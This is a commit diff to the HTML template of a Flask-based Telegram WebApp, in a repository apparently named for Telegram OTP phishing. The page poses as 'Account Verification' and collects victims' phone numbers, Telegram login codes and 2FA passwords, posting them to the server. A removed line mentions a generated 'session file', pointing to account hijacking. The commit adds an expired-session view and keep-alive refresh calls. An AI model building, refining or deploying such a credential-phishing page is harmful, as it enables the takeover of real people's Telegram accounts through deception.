

Before and after one commit to hahyt6644-gif/tele-phis-otp, a Flask app: page / in a window 1280 px wide. Run offline with Flask 3, Linux system fonts and the light colour scheme; some libraries are stand-ins or nearby versions.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -37,7 +37,7 @@
       display: block;
     }
 
-    .info-box {
+    .user-box {
       border: 2px solid #4CAF50;
       padding: 15px;
       border-radius: 10px;
@@ -183,72 +183,43 @@
       margin-bottom: 20px;
     }
 
-    .step-indicator {
-      display: flex;
-      justify-content: space-between;
-      margin: 20px 0 40px;
-      position: relative;
+    .expired-box {
+      text-align: center;
+      padding: 40px 20px;
     }
 
-    .step {
-      width: 30px;
-      height: 30px;
-      border-radius: 50%;
-      background: #ddd;
-      display: flex;
-      align-items: center;
-      justify-content: center;
-      color: white;
-      font-weight: bold;
-      z-index: 2;
+    .expired-icon {
+      font-size: 60px;
+      color: #f44336;
+      margin-bottom: 20px;
     }
 
-    .step.active {
-      background: #4CAF50;
-    }
-
-    .step.completed {
-      background: #4CAF50;
-    }
-
-    .step-line {
-      position: absolute;
-      top: 15px;
-      left: 15px;
-      right: 15px;
-      height: 2px;
-      background: #ddd;
-      z-index: 1;
-    }
-
-    .step-label {
-      text-align: center;
-      margin-top: 5px;
-      font-size: 12px;
-      color: #666;
+    .refresh-btn {
+      margin-top: 20px;
+      background: linear-gradient(135deg, #FF9800 0%, #F57C00 100%);
     }
   </style>
 </head>
 <body>
   <div class="container">
+    <!-- Session Expired View -->
+    <div id="expired-view" class="expired-box" style="display: none;">
+      <div class="expired-icon">⚠️</div>
+      <h2>Session Expired</h2>
+      <p>Your verification session has expired.</p>
+      <p>Please go back to Telegram and use /start again.</p>
+      <button onclick="restartVerification()" class="refresh-btn">
+        🔄 Restart Verification
+      </button>
+    </div>
+
+    <!-- Main Verification View -->
+    <div id="main-view">
       <h2>🔐 Account Verification</h2>
 
-    <!-- Step Indicator -->
-    <div class="step-indicator">
-      <div class="step" id="step1">1</div>
-      <div class="step" id="step2">2</div>
-      <div class="step" id="step3">3</div>
-      <div class="step-line"></div>
-    </div>
-    <div style="display: flex; justify-content: space-between; margin-top: -10px;">
-      <div class="step-label">Share Contact</div>
-      <div class="step-label">Enter OTP</div>
-      <div class="step-label">Complete</div>
-    </div>
-
-    <!-- Session Info -->
-    <div class="info-box">
-      <div class="info-line">🔑 Session ID: <span id="session-id">Loading...</span></div>
+      <!-- User Info Box -->
+      <div id="user-box" class="user-box">
+        <div class="info-line">🆔 User ID: <span id="user-id">Loading...</span></div>
         <div class="info-line">👤 Name: <span id="user-name">Loading...</span></div>
         <div class="info-line">💬 Username: <span id="user-username">Loading...</span></div>
         <div class="info-line">📞 Phone: <span id="user-phone">Not shared yet</span></div>
@@ -263,7 +234,7 @@
         <div class="instructions">
           <h3>📋 Step 1: Share Your Contact</h3>
           <ol>
-          <li>Click "Share Contact" button below</li>
+            <li>Click "Share Phone Number" button below</li>
             <li>Select your contact from Telegram</li>
             <li>5-digit OTP will appear in bot chat</li>
             <li>Return here for next step</li>
@@ -274,12 +245,8 @@
         </div>
 
         <button id="share-btn">
-        📱 Share Contact
+          📱 Share Phone Number
         </button>
-
-      <p style="text-align: center; color: #666; margin-top: 20px;">
-        <small>Share your contact with <span id="bot-name">@Bot</span> to receive OTP</small>
-      </p>
       </div>
 
       <!-- Section 2: OTP Entry -->
@@ -338,11 +305,12 @@
           <div class="success-icon">✅</div>
           <h2>Verification Successful!</h2>
           <p>Your account has been verified successfully.</p>
-        <p>Session file has been generated and saved.</p>
+          <p>You can now close this WebApp.</p>
 
           <button onclick="closeWebApp()" style="margin-top: 30px;">
             🏁 Close WebApp
           </button>
+        </div>
       </div>
     </div>
   </div>
@@ -351,62 +319,86 @@
     const tg = window.Telegram.WebApp;
     tg.expand();
 
-    // Get session ID from URL or generate
+    let userId = null;
+    let userPhone = null;
+    let sessionRefreshInterval = null;
+
+    // Get user ID from URL
     const urlParams = new URLSearchParams(window.location.search);
-    let sessionId = urlParams.get('session_id');
+    userId = urlParams.get('user_id');
 
-    if (!sessionId) {
-      // Generate session ID for this WebApp instance
-      sessionId = 'webapp_' + Date.now() + '_' + Math.random().toString(36).substr(2, 9);
-      window.history.replaceState({}, '', `?session_id=${sessionId}`);
+    if (userId) {
+      document.getElementById('user-id').textContent = userId;
     }
 
-    let userPhone = null;
-    let currentStage = 'contact';
+    // Load user data from server
+    async function loadUserData() {
+      if (!userId) return;
 
-    // Initialize
-    document.getElementById('session-id').textContent = sessionId.substring(0, 12) + '...';
+      try {
+        const res = await fetch(`/api/user/${userId}`);
+        const data = await res.json();
 
-    const user = tg.initDataUnsafe?.user;
-    if (user) {
-      document.getElementById('user-name').textContent = user.first_name || 'N/A';
-      document.getElementById('user-username').textContent = '@' + (user.username || 'N/A');
+        if (data.error === 'Session expired' || data.expired) {
+          showExpiredView();
+          return;
         }
 
-    // Load session data
-    async function loadSessionData() {
-      try {
-        const res = await fetch(`/api/session/${sessionId}`);
-        const data = await res.json();
-
-        if (data.success) {
-          const session = data.session;
-
-          if (session.phone) {
-            userPhone = session.phone;
-            document.getElementById('user-phone').textContent = userPhone;
+        if (data.error === 'User not found') {
+          // User not in system yet, that's ok
+          return;
         }
 
-          // Update UI based on stage
-          if (session.stage === 'contact_shared') {
+        // Update user info
+        if (data.name) document.getElementById('user-name').textContent = data.name;
+        if (data.username) document.getElementById('user-username').textContent = '@' + data.username;
+
+        if (data.phone) {
+          userPhone = data.phone;
+          document.getElementById('user-phone').textContent = userPhone;
+
+          // Auto-advance to OTP section if phone is shared
+          if (data.has_phone && !document.getElementById('section-otp').classList.contains('active')) {
             showSection('otp');
-            updateSteps(2);
-          } else if (session.stage === 'needs_2fa') {
-            showSection('2fa');
-            updateSteps(3);
-          } else if (session.stage === 'verified') {
-            showSection('success');
-            updateSteps(4);
-          }
-        } else {
-          // Session expired, create new one
-          if (data.stage === 'expired') {
-            showAlert('Session expired. Please refresh the page.', 'error');
           }
         }
+
+        // Refresh session timestamp
+        refreshSession();
+
       } catch (error) {
-        console.error('Error loading session:', error);
+        console.error('Error loading user data:', error);
       }
+    }
+
+    // Refresh session to prevent expiration
+    async function refreshSession() {
+      if (!userId) return;
+
+      try {
+        await fetch('/api/refresh-session', {
+          method: 'POST',
+          headers: {'Content-Type': 'application/json'},
+          body: JSON.stringify({ user_id: userId })
+        });
+      } catch (error) {
+        console.error('Session refresh error:', error);
+      }
+    }
+
+    // Show expired view
+    function showExpiredView() {
+      document.getElementById('main-view').style.display = 'none';
+      document.getElementById('expired-view').style.display = 'block';
+
+      if (sessionRefreshInterval) {
+        clearInterval(sessionRefreshInterval);
+      }
+    }
+
+    // Restart verification
+    function restartVerification() {
+      tg.close();
     }
 
     // Share contact
@@ -417,52 +409,16 @@
 
       tg.requestContact(async (ok) => {
         if (ok) {
-          // Get phone from Telegram
-          const user = tg.initDataUnsafe?.user;
-          const phone = user?.phone_number || '';
+          showAlert('✅ Contact shared! Check bot chat for OTP.', 'success');
 
-          if (phone) {
-            // Send to server
-            try {
-              const response = await fetch('/api/share-contact', {
-                method: 'POST',
-                headers: {'Content-Type': 'application/json'},
-                body: JSON.stringify({
-                  session_id: sessionId,
-                  phone: phone
-                })
-              });
-
-              const data = await response.json();
-
-              if (data.success) {
-                showAlert('✅ Contact shared! Check bot chat for OTP.', 'success');
-                userPhone = phone;
-                document.getElementById('user-phone').textContent = phone;
-
-                // Move to OTP section
+          // Wait and reload user data
           setTimeout(() => {
+            loadUserData();
             showSection('otp');
-                  updateSteps(2);
           }, 1500);
         } else {
-                showAlert('❌ ' + (data.error || 'Failed to share contact'), 'error');
-                btn.innerHTML = '📱 Share Contact';
-                btn.disabled = false;
-              }
-            } catch (error) {
-              showAlert('❌ Network error', 'error');
-              btn.innerHTML = '📱 Share Contact';
-              btn.disabled = false;
-            }
-          } else {
-            showAlert('❌ Could not get phone number', 'error');
-            btn.innerHTML = '📱 Share Contact';
-            btn.disabled = false;
-          }
-        } else {
           showAlert('❌ Contact sharing cancelled', 'error');
-          btn.innerHTML = '📱 Share Contact';
+          btn.innerHTML = '📱 Share Phone Number';
           btn.disabled = false;
         }
       });
@@ -472,11 +428,6 @@
     async function verifyOTP() {
       const otp = document.getElementById('otp-input').value.trim();
       const btn = document.getElementById('verify-otp-btn');
-
-      if (!userPhone) {
-        showAlert('Please share your contact first', 'error');
-        return;
-      }
 
       // Validate
       if (otp.length !== 5 || !/^\d{5}$/.test(otp)) {
@@ -493,23 +444,25 @@
           method: 'POST',
           headers: {'Content-Type': 'application/json'},
           body: JSON.stringify({
-            session_id: sessionId,
-            phone: userPhone,
+            user_id: userId,
             otp: otp
           })
         });
 
         const data = await response.json();
 
+        if (data.expired) {
+          showExpiredView();
+          return;
+        }
+
         if (data.success) {
           if (data.requires_2fa) {
             showAlert('🔐 2FA password required', 'success');
             showSection('2fa');
-            updateSteps(3);
           } else {
             showAlert('✅ Verification successful!', 'success');
             showSection('success');
-            updateSteps(4);
           }
         } else {
           showAlert('❌ ' + (data.error || 'Invalid OTP'), 'error');
@@ -528,11 +481,6 @@
       const password = document.getElementById('password-input').value.trim();
       const btn = document.getElementById('verify-2fa-btn');
 
-      if (!userPhone) {
-        showAlert('Please complete previous steps first', 'error');
-        return;
-      }
-
       if (!password) {
         showAlert('Please enter 2FA password', 'error');
         return;
@@ -546,18 +494,21 @@
           method: 'POST',
           headers: {'Content-Type': 'application/json'},
           body: JSON.stringify({
-            session_id: sessionId,
-            phone: userPhone,
+            user_id: userId,
             password: password
           })
         });
 
         const data = await response.json();
 
+        if (data.expired) {
+          showExpiredView();
+          return;
+        }
+
         if (data.success) {
           showAlert('✅ 2FA verified successfully!', 'success');
           showSection('success');
-          updateSteps(4);
         } else {
           showAlert('❌ ' + (data.error || 'Invalid password'), 'error');
           btn.innerHTML = '🔐 Verify 2FA';
@@ -577,27 +528,12 @@
 
       // Show selected section
       document.getElementById(`section-${sectionName}`).classList.add('active');
-      currentStage = sectionName;
 
       // Auto-focus inputs
       if (sectionName === 'otp') {
         setTimeout(() => document.getElementById('otp-input').focus(), 100);
       } else if (sectionName === '2fa') {
         setTimeout(() => document.getElementById('password-input').focus(), 100);
-      }
-    }
-
-    function updateSteps(stepNumber) {
-      // Reset all steps
-      for (let i = 1; i <= 3; i++) {
-        const step = document.getElementById(`step${i}`);
-        step.classList.remove('active', 'completed');
-
-        if (i < stepNumber) {
-          step.classList.add('completed');
-        } else if (i === stepNumber) {
-          step.classList.add('active');
-        }
       }
     }
 
@@ -613,10 +549,12 @@
     }
 
     // Initial load
-    loadSessionData();
+    loadUserData();
 
-    // Auto-refresh session data
-    setInterval(loadSessionData, 2000);
+    // Set up periodic refresh
+    sessionRefreshInterval = setInterval(() => {
+      loadUserData();
+    }, 30000); // Refresh every 30 seconds
 
     // Enter key support
     document.getElementById('otp-input')?.addEventListener('keypress', function(e) {
@@ -626,6 +564,10 @@
     document.getElementById('password-input')?.addEventListener('keypress', function(e) {
       if (e.key === 'Enter') verify2FA();
     });
+
+    // Refresh session on user activity
+    document.addEventListener('click', refreshSession);
+    document.addEventListener('keypress', refreshSession);
   </script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
